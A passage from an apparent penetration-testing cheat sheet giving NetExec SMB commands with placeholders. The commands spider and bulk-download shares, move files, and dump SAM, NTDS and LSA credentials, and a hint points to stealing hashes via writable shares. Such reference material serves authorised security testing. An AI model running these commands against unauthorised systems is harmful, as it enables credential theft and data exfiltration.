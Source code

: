 ```bash
nxc smb <ip> -u <user> -p <pass> -M spider_plus -o DOWNLOAD_FLAG=True
```
{% endtab %}
{% endtabs %}

### Upload/Download

If large files are failing/erroring, add  `--smb-timeout` with a value than 2.

{% tabs %}
{% tab title="Download" %}
{% code overflow="wrap" %}
```bash
nxc smb <ip> -u <user> -p <pass> --share <share> --get-file <\\path\\to\\file> <local-file>
```
{% endcode %}
{% endtab %}

{% tab title="Upload" %}
{% code overflow="wrap" %}
```bash
nxc smb <ip> -u <user> -p <pass> --share <share> --put-file <local-file> <\\path\\to\\upload\\file>
```
{% endcode %}
{% endtab %}

{% tab title="Share" %}
{% code overflow="wrap" %}
```bash
nxc smb <ip> -u <user> -p <pass> -M spider_plus -o DOWNLOAD_FLAG=True MAX_FILE_SIZE=99999999 OUTPUT_FOLDER=./ EXCLUDE_FILTER=admin$,print$,ipc$,netlogon,sysvol
```
{% endcode %}
{% endtab %}
{% endtabs %}

### Modules

{% hint style="info" %}
For **stealing hashes via writeable shares** via SMB using `slinky`, `drop-sc`, or `scuffy` check [here](../../../services/shares/smb-139-445.md#hashes).
{% endhint %}

{% tabs %}
{% tab title="Creds" %}
```bash
# SAM
nxc smb <ip> -u <user> -p <pass> --sam

# NTDS
nxc smb <ip> -u <user> -p <pass> --ntds --user <user>

# LSA
nxc smb <ip> -u <user> -p <pass> --lsa
```
